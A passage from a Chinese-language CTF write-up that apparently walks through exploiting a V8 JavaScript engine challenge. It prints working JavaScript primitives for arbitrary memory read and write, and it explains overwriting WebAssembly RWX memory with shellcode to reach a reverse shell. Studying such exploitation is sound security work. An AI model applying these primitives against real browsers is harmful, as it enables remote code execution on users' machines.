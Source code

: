 以上的内存关系赋予我们任意读写的能力，编写如下利用函数：

```js
function getAddr(obj) {
// 获得对象的地址
    g_fake_obj[2] = i2f(g_getAddrArr_addr);
    g_getAddrArr[0] = obj;
    return f2i(g_controlled_arr[0]);
}
function readAddr(addr) {
// 任意地址读，实际上是把被控制数组的 elements 指针指向目标地址，接下来从
    g_fake_obj[2] = i2f(addr - 0x10n);
    return f2i(g_controlled_arr[0]);
}
function writeAddr(addr, data) {
// 任意地址写
    g_fake_obj[2] = i2f(addr - 0x10n);
    g_controlled_arr[0] = i2f(data);
}

```

--------

#### 获取 RWX 权限的内存空间并写入 shellcode

其实任意读写后就有很多办法可以利用了，在这道题中甚至可以去使用非常 "CTF" 的办法——大量 leak memory，找到 libc 基址，改 free_hook 实现 getshell，但是这很不 RealWorld：很难会遇到有人给你开一个 developer shell 来打的情况，因此写入 shellcode 是自由度更大的利用办法，可以实现：

- ~~弹计算器~~（本来这道题有这样的打算：patch 到 chromium 上远程运行选手上传的文件，录屏为 GIF 返回给选手，但后面该计划夭折了~~时间很仓促，出题人经验也不是很足，太麻烦了www~~）

- 执行反弹 shell，这也是最接近实际情况的利用

V8 中有对于 wasm 的支持，因此有任意读写的能力后可以通过写 wasm 并覆盖为 shellcode 的办法来实现 RWX 内存的获取与利用：

先在 [wasdk.github.io](https://wasdk.github.io/WasmFiddle/) 上随便生成一段 wasm code，得到测试 demo：

```js
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
var f_addr = getAddr(f);
```

进入 gdb 中分析 wasm 代码存储的地址，发现如下指针引用关系：

```
func 
     -> shared_info
                    -> data 
                            -> instance
                                        -> instance + 0x80: rwx segments
```
